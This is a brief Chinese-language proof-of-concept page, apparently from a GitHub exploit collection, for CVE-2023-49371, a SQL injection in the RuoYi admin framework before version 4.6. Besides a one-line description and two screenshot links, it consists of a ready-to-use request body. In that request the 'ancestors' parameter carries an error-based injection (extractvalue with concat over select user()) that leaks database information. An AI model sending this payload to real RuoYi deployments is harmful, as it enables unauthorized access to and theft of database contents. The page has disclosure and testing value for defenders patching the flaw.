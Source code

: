 # RuoYi4.6.0 SQL注入漏洞CVE-2023-49371

## RuoYi4.6.0 SQL注入漏洞CVE-2023-49371

若依在4.6版本之前存在SQL注入漏洞，攻击者通过该漏洞可以进行SQL注入利用，从而获取数据库中的敏感信息

## poc
```
DeptName=1&deptid =100&ParentId=12&Status= 0&ordernum =1&ancestors=0)or(extractvalue(1,concat((select user())))); #
```
![image](https://github.com/wy876/POC/assets/139549762/7c110048-af68-42e5-ba3b-ffb69bb28f17)

![image](https://github.com/wy876/POC/assets/139549762/653098c3-5c6d-45a9-b50a-850b48475662)

